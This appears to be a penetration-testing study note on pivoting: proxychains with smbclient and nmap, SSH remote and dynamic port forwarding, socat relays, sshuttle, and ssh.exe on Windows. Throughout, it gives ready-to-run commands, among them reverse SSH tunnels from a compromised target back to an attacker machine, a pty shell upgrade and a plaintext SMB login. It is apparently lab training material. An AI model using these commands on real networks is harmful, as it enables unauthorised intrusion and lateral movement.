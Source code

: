 Then **prepend** `proxychains` to the command:
```bash
proxychains smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```
Scan ports of host3 by leveraging proxy.
```bash
proxychains nmap -vvv -sT --top-ports=20 -Pn 172.16.50.217
```
### SSH Remote Port Forwarding
kali -> host1 ->X(psql) port5432
In kali, start `ssh` service:
```bash
sudo systemctl start ssh
```
On target machine:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ssh -N -R 127.0.0.1:2345:[host1]:5432 kali@192.168.118.4
```
kali ->(psql) 127.0.0.1:2345
### SSH Remote Dynamic Port Forwarding
**OpenSSH client** needs to be version 7.6 or above to use it, the **server** version doesn't matter.
kali -> host1 ->X Scan host2
Start `ssh` service in kali.
On target:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ssh -N -R 9998 kali@192.168.118.4
```
Then add `socks5 127.0.0.1 9998` to `/etc/proxychains4.conf`
kali -> Scan host2:
```bash
proxychains nmap -vvv -sT --top-ports=20 -Pn -n 10.4.50.64
```
### Using sshuttle
kali -> host1 -> host2 -> host3
First set up a port forwarding `2222<-22`
```bash
socat tcp-l:2222,fork TCP:[host2]:22
```
use `sshuttle` to connect 
```bash
sshuttle -r username@[host1]:2222 [host2]/24 [host3]/24
```
## Port Forwarding on Windows
### ssh.exe
kali -> host1 ->host2
Start ssh sevice in kali:
```bash
sudo systemctl start ssh
```
In windows:
```powershell
where ssh
```
`C:\Windows\System32\OpenSSH\ssh.exe` - Default location.
See version of `ssh.exe`
```powershell
ssh.exe -V
```
version > `7.6` allows emote dynamic port forwarding.
```bash
ssh -N -R 9998 kali@[kali]
```